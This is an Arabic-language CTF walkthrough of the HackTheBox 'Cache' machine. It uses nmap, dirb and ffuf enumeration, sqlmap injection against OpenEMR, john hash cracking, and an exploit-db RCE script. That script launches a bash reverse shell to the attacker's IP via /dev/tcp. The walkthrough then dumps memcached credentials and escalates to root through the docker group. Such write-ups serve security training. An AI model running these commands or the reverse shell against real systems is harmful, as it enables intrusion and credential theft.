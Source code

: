 ```yaml
---
title: hackthebox cache walkthrough(arabic)
author: fasto
date: 2020-10-10 20:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---
```


<h1>Summary</h1>
<br>
السلام عليكم 
<br>
 hachthebox ساقوم بمشاركة مقال صغير يتحدث على هذا التحدي السيرفر متاح عبر منصة
 <br> هي منصة مختصة باختبار الاختراق في البداية نقوم ببعض الفحص المبدئي نجد كلمة سر واسم مستخدم بالاضافة الى دومين نايم مصاب 
<br> بصلاحية اباشي shell نستغلهما للحصول على sql injection و rce  بثغرتين 
<br>
 privilege escalation اما في مايخص 
 <br>
نكتشف ان اليوزر ينتمي الى مجموعة دوكر نستطيع بذلك الحصول على صلاحيات الروت بكل سهولة     
<h2>Walkthrough</h2>
<h4>Reconnaissance</h4>
    nmap نبدا بفحص البورتات باستخدام

```
$ nmap -A 10.10.10.188
Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-21 09:17 CET
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                      
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                             
|_http-title: Cache                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```
نلاحظ وجود 2 بورت
<br>
80 : الخاص بالويب سيرفر
<br>
22: الخاص ب ssh
<br>
لنبدا مع 80                                                                                                                                  
![Desktop View](/img/00.png)
 
sqli عند تصفح السيرفر نجد هناك مربع تسجيل الدخول نجرب 
<br>
 
لكن لا جدوى الموقع ليس مصاب 
<br>
![Desktop View](/img/0.png)


<h4>Enumeration</h4>

نشغل dirb
<br>
بالامر التالي

![Desktop View](/img/1.png)
  javascript نلاحظ وجود 2 مجلدات  
و
<br>
jquery
<br>
عند فتح المجلد الثاني نجد هناك ملف بداخله  كلمة سر و كلمة مستخدم لنحتفظ به ونستمر بالبحث 
<br>password : H@v3_fun
<br>username : ash

![Desktop View](/img/2.png)


<h5>Subdomain Enumeration FUFF</h5>
نبحث عن دومين باستخدام
<br>
ffuf

![Desktop View](/img/3.png)
<br>
 hms وجدنا دومين اسمه

نضع الدومين في ملف 
<br>
/etc/hosts
<br>
```
10.10.10.188    hms.htb
```
نتصفح الدومين الجديد 
![Desktop View](/img/4.png)
 بعد البحث في جوجل نجد ان التطبيق الشغال في هذا الدومين مصاب بثغرة الحقن
<br></br>
وجدنا هذا الفيديو على يوتيوب يشرح هذه الثغرة
<br>
https://www.youtube.com/watch?v=DJSQ8Pk_7hc
<br>
نتبع الخطوات كما هو موضح في الفيديو
<br>
burp نلتقط الريكوست باستخدام برنامج 
![Desktop View](/img/5.png)

نقوم بحفظ الريكوست في ملف 
![Desktop View](/img/6.png)
<br>
sqlmap ثم نقوم بالحقن باستخدام 
<br>
```sqlmap -r om.req  --dbs```
<br>om.req ---> الريكوست السابقة
<br>
\--dbs  ---> عرض قواعد البيانات

![Desktop View](/img/7.png)
<br>
وجدنا اسم قاعدة البيانات
![Desktop View](/img/8.png)
<br>
لنستخرج الجداول الان
``` sqlmap -r login.req -D openemr --table ```
<br>
<br>-D      ---> اسم قاعدة البيانات
<br>--table ---> استخراج الجداول
<br>  
الان استخرجنا كل الجداول الان نسحب كلمة السر واليوزر المتواجد في الجدول
<br>
users_secure
<br>
``` sqlmap -r login.req -D openemr -T users_secure --dump ```

![Desktop View](/img/10.png)

![Desktop View](/img/11.png)
وجدنا كلمة سر مشفرة
<br>
john نفك تشفيرها باستخدام برنامج
  <br>
```
$ john /tmp/hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-08-21 16:12) 3.333g/s 2880p/s 2880c/s 2880C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br>
xxxxxx حصلنا على كلمة سر 
 
<br>
نجد انها صحيحةopenemr عند تجريبها في    
 
<br>   rce من البحث السابق وجدنا ايضا ان البرنامج مصاب بثغرة
ووجدنا ايضا سكريبت الاستغلال
نحمله من هنا
</br>https://www.exploit-db.com/exploits/45161

![Desktop View](/img/13.png)
<br>
```python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.212/1338 0>&1'```
<br>
 الخاص بك ip ضع  
10.10.14.212  :مكان

<br> الان دخلنا الى السيرفر
لكن بصلاحيات اباشي
<h4>Privilege Escalation</h4>

باستخدام الامر التالي نلاحظ ان البورت 11211 مفتوح
<br>
```netstat -plant```
<br>
  memcached هذا البورت خاص ب 
![Desktop View](/img/14.png)


```netstat -plant```
<br>لنقم بسحب البيانات
<br>  telnet عبر memcached نتصل ب   
```telnet localhost 11211```
<br>  STAT command نكتب الامر التالي  
```STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 30
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 140
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 3205
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```
ثم
stats cachedump 1 0

```
stats cachedump 1 0

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]                                                                                                                                  
END   
```
حصلنا على اليوزر
```
get user                                                                                                                                       
VALUE user 0 5
luffy
END
```
حصلنا على كلمة السر
```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
<br>![Desktop View](/img/15.png)

<br>
 ssh حصلنا على اليوزر و كلمة السر لنجرب الاتصال عبر 
<br>
<br>

  doker ينتمي الى المجموعة  luffy نكتشف ان اليوزر
 

<br>
gtgobins  نذهب الى موقع
```https://gtfobins.github.io/gtfobins/docker/
```
 
  
<br>![Desktop View](/img/16.png)
```
luffy@cache:~$ docker images
 REPOSITORY TAG IMAGE ID CREATED SIZE
 ubuntu latest 2ca708c1c9cc 7 months ago 64.2MB
 ```
 
<br>![Desktop View](/img/17.png)
حصلنا على صلاحيات رووت
